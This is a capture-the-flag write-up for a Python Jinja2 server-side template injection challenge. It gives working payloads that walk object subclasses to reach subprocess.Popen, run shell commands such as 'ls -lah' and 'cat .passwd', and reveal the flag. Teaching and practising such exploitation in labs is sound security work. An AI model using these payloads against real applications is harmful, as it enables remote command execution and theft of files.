Solution: Template Injection Vulnerability Exploitation

![serverside](https://github.com/hamid-sheibani/challenges/assets/78083936/e2cea6c3-3cf8-403f-8744-05a59cb459d9)


Overview:
In this challenge, we encountered two input fields requiring template injection testing. Given the Python-based nature of the application, we opted to test for vulnerabilities in Jinja2, a prevalent template engine. Here's how we proceeded:

Step 1: Identifying Jinja2 Functions:
We utilized the following payload to access Jinja2 functions used in the program:

markdown

{{ ''.__class__.__mro__[1].__subclasses__() }}

Explanation:

'' => This is an empty string. It's used as a starting point to access attributes and methods.

.__class__  =>  This accesses the class of an object. In this case, the empty string.

.__mro__  =>  This accesses the method resolution order (MRO) of the class, which is a tuple of classes the class inherits from.

[1]  => This accesses the second element in the MRO tuple. In Python, the second element of the MRO tuple typically refers to the superclass of the class.

.__subclasses__()  =>  This retrieves a list of all subclasses of the specified class.

Output of the above payload provides us with all classes. We then copied them into a file and searched for the object class using the following Linux commands:

bash

sed 's/\\,/\\n/g' list.txt > new_list.txt
cat -n new_list.txt | grep object

This helped us identify subprocess.Popen() at index 408.

Step 2: Executing Commands:
To execute commands such as ls -lah and view all files, including hidden ones, we crafted the following payload:

scss

{{ ''.__class__.__mro__[1].__subclasses__()[408]("ls -lah", shell=True, stdout=-1).communicate() }}

Executing this payload returned the contents of the .passwd file, revealing sensitive information.

Step 3: Retrieving the Flag:
Lastly, we utilized a similar payload to read the .passwd file and uncovered the flag:

scss

{{ ''.__class__.__mro__[1].__subclasses__()[408]("cat .passwd", shell=True, stdout=-1).communicate() }}

This returned the flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

